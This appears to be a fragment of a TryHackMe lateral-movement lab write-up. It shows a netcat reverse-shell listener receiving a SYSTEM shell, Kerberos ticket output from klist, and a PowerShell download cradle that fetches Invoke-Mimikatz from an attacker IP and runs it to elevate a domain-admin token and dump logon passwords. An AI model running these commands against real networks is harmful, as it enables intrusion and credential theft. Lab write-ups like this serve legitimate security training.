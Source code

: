 ```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35850
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>C:\Users\t1_corine.waters\Desktop\flag.exe
C:\Users\t1_corine.waters\Desktop\flag.exe
THM{MOVING_WITH_WMI_4_FUN}
```


## Use of Alternate Authentication Material

```bash
PS C:\Users\t2_felicia.dean> klist

Current LogonId is 0:0x221c60

Cached Tickets: (1)


#0>     Client: t2_felicia.dean @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 7/3/2023 14:52:05 (local)
        End Time:   7/4/2023 0:52:05 (local)
        Renew Time: 7/10/2023 14:52:05 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ ln -s /opt/sectools/powershell/Invoke-Mimikatz/Invoke-Mimikatz.ps1 mimi.ps1
```

```bash
iex(new-object system.net.webclient).downloadstring('http://10.50.17.90/mimi.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate /domainadmin" "sekurlsa::logonpasswords" exit'
```
